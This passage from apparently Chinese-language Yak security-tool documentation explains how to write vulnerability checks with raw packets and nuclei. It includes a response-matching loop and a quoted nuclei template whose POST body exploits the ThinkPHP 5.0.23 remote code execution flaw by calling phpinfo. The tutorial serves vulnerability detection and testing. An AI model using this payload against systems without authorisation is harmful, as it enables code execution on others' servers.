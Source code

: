 ```yak
for rsp = range reqs {
    if rsp.Error != nil {
        log.error(rsp.Error)
        continue
    }

    if re.Match(`((uid\=\d*)|(gid\=\d*)|(groups=\d*))`, rsp.ResponseRaw) {
        println("found thinkphp vuls...")
        break
    }
}
```

通过上述代码，我们可以很容易知道原始数据包是啥。通常我们可以直接把 `Burpsuite` 的数据包直接复制在这里，然后直接编写需要检测的正则即可。

:::caution

原始数据包将会自动修复一些可能的错误，比如说数据包前的空行，自动修正 Content-Length，根据 Host 启动提取需要访问的目标。

所以用户不必严格追去数据包的格式必须怎么样，Yak 的 `fuzz` 能自动修正一部分数据包的错误

:::

### 使用 `nuclei` 编写 PoC

如果是担心 Yak 编写 PoC 会并不那么通用，或者 Yak 的分享渠道并不能满足用户的需求，那么用户可以考虑使用 `nuclei` 的 PoC 编写

我们直接使用

```yak
res, err := nuclei.Scan("http://127.0.0.1:8080", nuclei.tags("thinkphp"))
die(err)
for r := range res {
   dump(r)
}
```

即可调用到我们设置了相应 Tag 的 PoC。[`nuclei-templates` 中 Thinkphp 的 PoC](https://github.com/projectdiscovery/nuclei-templates/blob/3ef39c173e4cc1937158c6ad9ab30d2f2e7366d1/vulnerabilities/thinkphp/thinkphp-5023-rce.yaml)

PoC 样例如下：

```yaml
id: thinkphp-5023-rce

info:
  name: ThinkPHP 5.0.23 RCE
  author: dr_set
  severity: critical
  description: Thinkphp5 5.0(<5.0.24) Remote Code Execution.
  reference: https://github.com/vulhub/vulhub/tree/0a0bc719f9a9ad5b27854e92bc4dfa17deea25b4/thinkphp/5.0.23-rce
  tags: thinkphp,rce

requests:
  - method: POST
    path:
      - "{{BaseURL}}/index.php?s=captcha"
    headers:
      Content-Type: application/x-www-form-urlencoded
    body: "_method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1"
    matchers-condition: and
    matchers:
      - type: word
        words:
          - "PHP Extension"
          - "PHP Version"
```